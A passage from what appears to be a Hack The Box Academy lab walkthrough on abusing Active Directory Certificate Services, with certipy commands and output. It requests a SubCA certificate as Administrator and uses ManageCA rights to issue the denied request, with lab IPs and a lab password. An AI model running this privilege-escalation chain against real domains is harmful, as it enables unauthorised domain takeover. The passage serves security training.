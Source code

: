 Because `cken` is a local administrator, it can enroll in certificates using the `SubCA` template; therefore, students need to combine this inherent misconfiguration with `ESC1`. Students need to tunnel via `proxychains` the `req` command of `certipy`, specifying the template `SubCA` for the `-template` option and the `UPN` `Administrator` for the `-upn` option (when prompted to save the private key, students can either answer with yes or no, however, remembering the `Request ID` is important):

Code: shell

```shell
proxychains -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -template SubCA -upn Administrator
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -template SubCA -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 11
Would you like to save the private key? (y/N) y
[*] Saved private key to 11.key
[-] Failed to request certificate
```

Regardless of the CA refusing to enroll the user `Administrator` for the `SubCA` template, students need to abuse the `ManageCa` rights that `cken` possesses to issue the certificate; students need to tunnel via `proxychains` the `ca` command of `certipy`, specifying the `Request ID` previously attained for the `-issue-request` option:

Code: shell

```shell
proxychains -q certipy ca -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -issue-request 11
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q certipy ca -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -issue-request 11

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

After that, students need to abuse the `ManageCertificates` rights that `cken` possesses to retrieve the issued certificate; students need to use the `req` command of `certipy`, specifying the `Request ID` previously attained for the `-retrieve` option to attain a `PFX` certificate for the `Administrator` user:
